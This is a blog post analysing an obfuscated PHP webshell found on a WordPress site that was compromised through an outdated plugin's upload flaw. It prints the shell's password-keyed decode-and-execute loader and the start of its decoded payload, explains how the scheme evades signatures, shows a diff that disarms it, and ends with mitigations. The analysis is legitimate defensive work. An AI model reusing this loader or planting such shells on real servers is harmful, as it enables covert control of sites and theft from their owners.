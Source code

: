 ```yaml
---
layout: post
title: "Highly obfusticated PHP webshell"
date: 2015-11-26 18:54
comments: true
categories:
- security
- php
- webshell
- compromise
- ioc
- wordpress
---
```


If there's one thing to be said for Wordpress blogs, it's that users rarely seem to understand than keeping things up to date is really going to stop them from getting owned 9/10 times.

So if you take one thing away from this post please make sure it's:

1. *KEEP YOUR WORDPRESS INSTALL UP TO DATE*
2. *KEEP ALL YOUR WORDPRESS PLUGINS UP TO DATE*

Simple enough right? You would have thought so, but of course this isn't a "cure all" and there's other vulnerabilites and mitigations to consider; but not for this post.

# RFU

*Remote File Upload*.

So the site in question had a plugin which was out of date. This plugin had a RFU vulnerability which allowed attackers to upload arbitrary code files then head to

https://thesite.com/wp-content/pluginname/uploadedfile.php 

To execute the attack.

Standard, boring crap right ? 

Well this post isn't to focus on how it happened, nor why it happed. 

Simply put the php file itself I found *very interesting*.

# PHP Code obfustication

Sure, code obfustication is nothing new. Heck tools like msfvenom allow you to choose from a variety of obfustication methods the premis for which is to avoid signatures for "known bad" files, and thus avoid common signatures (which is why you should not rely solely on signature bases analysis).

The thing is the overwhelming majority of webshell obfustication is done through "packing", you'll see it use base64, gzinflate, eval and that's a pretty common standard.

Not this little *bastard*, and that's why this got my attention

Head of the file:

```php
<?php $wp__wp='base'.(32*2).'_de'.'code';$wp__wp=$wp__wp(str_replace("\n", '', 'QOC7sj/9Bh8g6EJWtzJjaKUSdpGj/VzFUKzIhEUBQzNS4Il8OaZdAcKdt4ix0eWNniRKnvuBmTO2W39H
d7VmyCL7+MB1t1eOa8wWJiYQqisMKzcIhXvmOdkg4LTsDk6HIm+rsjD2nlcBpGKNVW+/irhPtk6zlOIq
aUVBxVWCJ7CT30ogudYn0spol2MwyvBRWJHwaKlKY3bYQ39LodSJUGhlB3tJAMiAvCMLpWp91UHt+Ukm
aHypp+OTC9oWJSwpwALTqIX+z2Yetp8r3RRBf2JYPiUtxuuEsxi4lIGM477sPiLqhFJLI7wiV35oyUJJ
G9Zv4OWsozkEARLUEBqKlxlH21b0+Sv568ea9hMD/JhLLx7TeG3wsqfHQ5yxIY2GTHHq9eT3yeGCteT4
xprMpl7rNcEtG1b6Ez9SSsbG61fEHg4ozeVVyrEPlDscsyXlhysW2kDf1CLg0URWuW7GsiJ2xPsyG+RX
ctsM+8t+W4nbM1AyuxSQv03OoA3R0sGLeicrm41VByDI0lDlwfmwq1K1jT2KsXD60BA/PDs2FBB9IfhJ
awK1/tFiGbi+G/gb9KLEzrr8ZCgkTqH8RWJ/avnDbK/DMBy5rZzVU/VEFNaRTVyN5lBxphQ6nJpT9vM5
Z5Cu7f8PYmaBthyP3iqZk/ur0i1+64uyYe9XaiXkORQ/F90DEaY0m3MAxIptHs8lQMclnoIX27gTJnAv
NpcyJgsM5Z8w/6dApQTxWU4/iA+QIKZATqlKYDpuScahCgOIlenxBhEsjB7s2mpG82vcs+/FoxuobVLZ
```

Well, that's ... *Interesting* ...

Tail of the file

```php
'));$wp_wp=isset($_POST['wp_wp'])?$_POST['wp_wp']:(isset($_COOKIE['wp_wp'])?$_COOKIE['wp_wp']:NULL);if($wp_wp!==NULL){$wp_wp=md5($wp_wp).substr(md5(strrev($wp_wp)),0,strlen($wp_wp));for($wp___wp=0;$wp___wp<15324;$wp___wp++){$wp__wp[$wp___wp]=chr(( ord($wp__wp[$wp___wp])-ord($wp_wp[$wp___wp]))%256);$wp_wp.=$wp__wp[$wp___wp];}if($wp__wp=@gzinflate($wp__wp)){if(isset($_POST['wp_wp']))@setcookie('wp_wp', $_POST['wp_wp']);$wp___wp=create_function('',$wp__wp);unset($wp__wp,$wp_wp);$wp___wp();}}?><form action="" method="post"><input type="text" name="wp_wp" value=""/><input type="submit" value="&gt;"/></form>
```

## Long string is loooooooong ...

So first it's a base64 encoded string; we know this due to the first line of code which is doing some signature evasion itself.

```php
$wp__wp='base'.(32*2).'_de'.'code';
```

Which of course yields 'base64_decode'

So then the next line

```php
$wp__wp=$wp__wp(str_replace("\n", '', 'QOC7
```

Is really:

```
$wp__wp=base64_decode(<payload>)
```

So let's use some python ...

```
>>> payload="""QOC7s...""".replace("\n","")
>>> len(payload)
20432
>>> from base64 import b64decode
>>> b64decode(payload)
'@\xe0\xbb\xb2?\xfd\x06\x1f
...
```

So we have some raw intelligibile data, the WTF continues ...

## So what now?

Let's look at the tail of the file again it's doing some additional processing let's add some whitespace and comments to make it readable

```php
//Ternary if statements
//if we have the password in the POST or COOKIE var set $wp_wp to this. If not set $wp_wp to null
$wp_wp = isset($_POST['wp_wp']) ? $_POST['wp_wp'] : (isset($_COOKIE['wp_wp']) ? $_COOKIE['wp_wp'] : NULL);

//If wp_wp is not NULL (so we have a password set from the above)
if( $wp_wp !== NULL ) {
    //mutate the var
    $wp_wp = md5($wp_wp).substr(md5(strrev($wp_wp)),0,strlen($wp_wp));
    //assuming: test123 as the password.
    /*
     * php -r '$wp_wp = "test123"; $wp_wp = md5($wp_wp).substr(md5(strrev($wp_wp)),0,strlen($wp_wp)); echo $wp_wp;'
     * cc03e747a6afbbcbf8be7668acfebee56a54720
     */ 
   
    //wp___wp is just an integer itterator, for for readability I'm substituting this for $i 
    for( $i = 0; $i < 15324; $i++){
        //wp__wp is the payload so I'm renaming this also to $payload
        //each char is unpacked by the following line
        $payload[$i] = chr(( ord($payload[$i]) - ord($wp_wp[$i])) % 256);
        //this is then appended to wp_wp (which is the password)
        $wp_wp .= $payload[$i];
    }
  
    if ( $payload = @gzinflate($payload)) {
        if( isset($_POST['wp_wp']) ) @setcookie('wp_wp', $_POST['wp_wp']);
        //recall this line from above: $wp__wp='base'.(32*2).'_de'.'code'
        //$i therefor is base64_decode(<unpacked payload>);
        $i = create_function('',$payload);
        unset($payload,$wp_wp);
        $i();
    }
}?>
<form action="" method="post"><input type="text" name="wp_wp" value=""/><input type="submit" value="&gt;"/></form>
```

I suppose we _could_ go the python route again, however as we've discerned the function (loop unpack payload -> create_function -> execute function), we can "disarm" it to instead echo out the unpacked code for further analysis.


So the file with the required modifications ...

```
257c257,266
< '));$wp_wp=isset($_POST['wp_wp'])?$_POST['wp_wp']:(isset($_COOKIE['wp_wp'])?$_COOKIE['wp_wp']:NULL);if($wp_wp!==NULL){$wp_wp=md5($wp_wp).substr(md5(strrev($wp_wp)),0,strlen($wp_wp));for($wp___wp=0;$wp___wp<15324;$wp___wp++){$wp__wp[$wp___wp]=chr(( ord($wp__wp[$wp___wp])-ord($wp_wp[$wp___wp]))%256);$wp_wp.=$wp__wp[$wp___wp];}if($wp__wp=@gzinflate($wp__wp)){if(isset($_POST['wp_wp']))@setcookie('wp_wp', $_POST['wp_wp']);$wp___wp=create_function('',$wp__wp);unset($wp__wp,$wp_wp);$wp___wp();}}?><form action="" method="post"><input type="text" name="wp_wp" value=""/><input type="submit" value="&gt;"/></form>
\ No newline at end of file
---
> '));
> 
> $_POST['wp_wp'] = "test123";
> $wp_wp=isset($_POST['wp_wp'])?$_POST['wp_wp']:(isset($_COOKIE['wp_wp'])?$_COOKIE['wp_wp']:NULL);
> if($wp_wp!==NULL){$wp_wp=md5($wp_wp).substr(md5(strrev($wp_wp)),0,strlen($wp_wp));for($wp___wp=0;$wp___wp<15324;$wp___wp++){$wp__wp[$wp___wp]=chr(( ord($wp__wp[$wp___wp])-ord($wp_wp[$wp___wp]))%256);$wp_wp.=$wp__wp[$wp___wp];}if($wp__wp=@gzinflate($wp__wp)){if(isset($_POST['wp_wp']))@setcookie('wp_wp', $_POST['wp_wp']);
> //$wp___wp=create_function('',$wp__wp);unset($wp__wp,$wp_wp);
> //$wp___wp();
> echo $wp__wp;
> 
> }}?><form action="" method="post"><input type="text" name="wp_wp" value=""/><input type="submit" value="&gt;"/></form>
```

The resulting payload starts off as

```php
@ini_set('log_errors_max_len',0);@ini_restore('log_errors');@ini_restore('error_log');@ini_restore('error_reporting');@ini_set('log_errors',0);@ini_set('error_log',NULL);@ini_set('error_reporting',NULL);@error_
reporting(0);@ini_set('max_execution_time',0);@set_time_limit(0);@ignore_user_abort(TRUE);@ini_set('memory_limit','1000M');@ini_set('file_uploads',1);@ini_restore('magic_quotes_runtime');@ini_restore('magic_quot
es_sybase');
...
```

And continues to create a webshell interface.


#So what?

Granted this may be viewed as little more than a geeks curiosity, however on a more serious note the main intriguing element of this webshell is that the password is an intrinsic part required to unpack the valid payload.

Without the password the unpack will fail; so consider if 

```php
$wp__wp='base'.(32*2).'_de'.'code';
```

Was instead moved to reside inside the packed payload, how would you possibly be able to begin to write a signature for such a file?

Fuzzy logic sure, look for long strings of seemingly random content, still I can see that's going to run false positives in the masses given the various obfusticating options out there for php such as those that require licensing ...

## Mitigation ?

1. SELinux set ON, will limit what the web server process can access (it's not going to stop it getting access to your database servers, and if you have `httpd_can_network_connect` set to true, it's not going to stop it creating a reverse shell either, check out `httpd_can_connect_db` to maintain web app functionality but make it harder for attackers)
2. KEEP UP TO DATE WITH PATCHES, Web application, system packages ... patch all the things!
3. WAF and/or IPS (inspect POST & GET, for SQL, known shell commands and block (will not prevent file download / upload))
4. PHP disable_functions ([I covered this back in 2008](https://www.flickr.com/photos/31732936@N06/3079949402/), [cyberciti has a good write up](https://www.cyberciti.biz/faq/linux-unix-apache-lighttpd-phpini-disable-functions/))
